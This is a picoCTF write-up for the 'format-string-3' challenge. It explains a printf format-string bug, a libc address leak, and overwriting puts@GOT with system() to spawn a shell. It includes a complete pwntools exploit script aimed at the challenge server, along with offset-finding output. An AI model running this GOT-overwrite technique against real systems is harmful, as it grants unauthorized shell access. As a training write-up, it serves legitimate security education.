 ## 📘 PicoCTF Format String Exploit – Write-up

### 🧠 Challenge Summary

We are given a 64-bit Linux binary (`format-string-3`) that leaks the address of a libc function (`setvbuf`) at runtime, and also takes user input which is directly passed to `printf()` without format string sanitization.

This allows a **format string vulnerability**, which we exploit to overwrite the **GOT entry of `puts()`** with the address of **`system()`**, so that when the binary calls `puts("/bin/sh")`, it effectively executes `system("/bin/sh")` and gives us a shell.

---

## 🔍 Binary Analysis

### 🔸 Security Protections (`checksec`):

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE 
```

Key points:

* **No PIE** → GOT has fixed address.
* **Partial RELRO** → GOT entries are writable (critical for us).
* **Canary/NX** → Stack smashing won’t help here. Format string is the way.

---

### 🔸 Code Highlights

Here’s the critical part of the code:

```c
char *normal_string = "/bin/sh";

void hello() {
    puts("Howdy gamers!");
    printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
    ...
    hello();    
    fgets(buf, 1024, stdin);	
    printf(buf);           // <-- 💀 format string vulnerability!
    puts(normal_string);   // <-- 🧨 our weapon: puts("/bin/sh");
}
```

Observations:

* `printf(buf)` is **not safe** — it allows format string attacks.
* `puts(normal_string)` will trigger **system("/bin/sh")** if we overwrite `puts@GOT` to `system`.

---

## 🎯 Exploit Strategy

### 1. **Leak libc address**

The binary prints the address of `setvbuf` in libc at runtime:

```c
printf("Here's the address of setvbuf: %p\n", &setvbuf);
```

### 2. **Calculate libc base**

We subtract the offset of `setvbuf` (from our local `libc.so.6`) to find the libc base address, and then calculate the address of `system()`.

### 3. **Overwrite GOT**

We overwrite the GOT entry of `puts()` with the address of `system()` using `fmtstr_payload()`. Since the binary calls `puts("/bin/sh")`, it will now call `system("/bin/sh")`.

---

#### Offset

```bash
$ ./format-string-3
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x75f31ab443f0
AAAAAAAAA|%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
AAAAAAAAA|0x75f31aca2963.0xfbad208b.0x7ffe34b14ec0.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x4141414141414141.0x2e70252e70257c41.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0xa2e7025.(nil).(nil).(nil).
```

here if we calculate the 4141414141414141 is at the offset of 38 


---

## 💥 Final Exploit Script

```python
from pwn import *

# === Setup ===
elf = context.binary = ELF('./format-string-3', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# === Config: Toggle local or remote ===
LOCAL = False
HOST = 'rhea.picoctf.net'
PORT = 50540

# === Start function ===
def start():
    if LOCAL:
        return process(['./ld-linux-x86-64.so.2', '--library-path', '.', './format-string-3'])
    else:
        return remote(HOST, PORT)

# === Begin exploit ===
p = start()

# Leak setvbuf address
p.recvuntil(b'setvbuf in libc: ')
leaked_setvbuf = int(p.recvline().strip(), 16)
log.success(f"Leaked setvbuf address: {hex(leaked_setvbuf)}")

# Calculate libc base
libc.address = leaked_setvbuf - libc.symbols['setvbuf']
system = libc.symbols['system']
log.success(f"Libc base: {hex(libc.address)}")
log.success(f"system() address: {hex(system)}")

# Overwrite puts@GOT with system()
puts_got = elf.got['puts']
log.info(f"puts@GOT address: {hex(puts_got)}")

# Format string offset (brute-forced or guessed)
offset = 38  # Adjusted after testing
payload = fmtstr_payload(offset, {puts_got: system}, write_size='short')

# Send payload
p.sendline(payload)

# Interactive shell (triggered automatically by puts("/bin/sh"))
p.interactive()
```

---

## 🧪 How to Run

**Locally** (if libc and loader provided):

```bash
$ python3 exploit.py  # with LOCAL = True
```

**Remotely** (e.g., for CTF server):

```bash
$ python3 exploit.py  # with LOCAL = False and HOST/PORT set
```

---

## 📌 Notes

* `offset = 38` was found using brute-force method like `%p` scanning.
* Using `write_size='short'` ensures smaller writes and increases reliability.
* Since the program calls `puts("/bin/sh")`, we don’t have to inject the string or do ROP.

---

## 🏁 Result

Upon successful GOT overwrite:

![result](./img/final.png)



You can then:

```bash
$ id
$ cat flag.txt
```

---

